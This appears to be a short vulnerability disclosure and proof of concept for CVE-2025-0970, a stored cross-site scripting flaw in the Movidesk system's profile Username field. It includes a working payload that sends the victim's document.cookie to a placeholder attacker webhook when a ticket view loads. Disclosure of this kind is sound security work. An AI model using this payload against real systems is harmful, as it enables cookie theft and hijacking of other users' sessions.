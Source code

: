 # CVE-2025-0970
The Movidesk System by Zenvia is vulnerable to Stored Cross Site Scripting.

### Affected Version
< 25.01.22

## POC

This vulnerability resides in the /Account/EditProfile page in Username parameter,
Its possible to manipulate the parameter to insert any JavaScript code to the victim browser.

Payload example: `<img src onerror="this.src='http://YOUR-WEBHOOK-SITE?c='+document.cookie">`
Endpoint where the XSS is triggered (ticket view): `https://IP/Ticket`

https://IP/Account/EditProfile


### Detail

FOR THIS EXPLOIT, YOU HAVE TO BE AUTHENTICATED!

## Reference

https://www.movidesk.com/